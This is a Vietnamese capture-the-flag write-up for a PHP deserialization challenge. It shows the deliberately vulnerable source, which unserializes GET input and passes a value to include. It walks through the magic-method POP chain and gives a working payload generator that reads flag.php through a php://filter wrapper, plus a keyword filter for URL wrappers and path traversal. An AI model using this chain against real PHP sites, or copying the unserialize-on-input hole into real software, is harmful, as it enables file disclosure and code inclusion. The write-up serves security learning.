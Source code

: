 Challenge này cho ta source code luôn

```
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
```

Flag của ta là flag.php, bài này thuộc dạng deserialize và ta phải tìm cách trigger thông qua hàm append().Ở challenge này gồm các method magic:  __invoke(), __construct(), __toString(), __wakeup(), __get()

Goal là ta phải trigger được hàm append() thì ta phải trigger được hàm __invoke().Mà hàm invoke() được tự động gọi khi 1 đối tượng được gọi dưới dạng function.Vậy thì đối tượng của class Modifier phải được gọi dưới dạng funtion.

```php
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}
```

```php
$a = new Modifire();
$a();
```

Tiếp theo ta đến class Test.Ta có thể trigger được hàm __invoke().

```php
class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}
```

__get($key) sẽ trả về đối tượng $this->p là 1 đối tượng của class Test dưới dạng function, vậy thì nếu p ở đây là 1 đối tượng của class Modifier thì trigger được __invoke().

__get() ở đây sẽ được trigger khi ta đọc dữ liệu từ các thuộc tính không thể truy cập (protected hoặc private) hoặc không tồn tại. Để làm được điều này ta phải dùng đến __toString() trong class Show

```php
class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}
```

Hàm __toString() return ra $this->str->source, mà để làm được thì đối tượng của class Show dưới dạng string.Và điều này được thực hiện bởi hàm __wakeup() vì nó dùng hàm preg_match() lên đối tượng của class Show.Vậy chỉ cần gán $source là 1 đối tượng của class Show.

```php
<?php
//flag is in flag.php
class Modifier {
    protected  $var="php://filter/convert.base64-encode/resource=flag.php";
}
class Show{
    public $source;
    public $str;
}
 
class Test{
    public $p;
}
 
$a = new Show();
$a->str = new Test();
$a->str->p = new Modifier();
$b = new Show();
$b->source = $a;
 
echo urlencode(serialize($b));
?>
```

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/aa39d5b5-f98e-489e-9f03-6def39374726)

Đem decode ra thì được flag

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/3fe1c27b-7e24-457f-b989-cf3c19f90dd6)

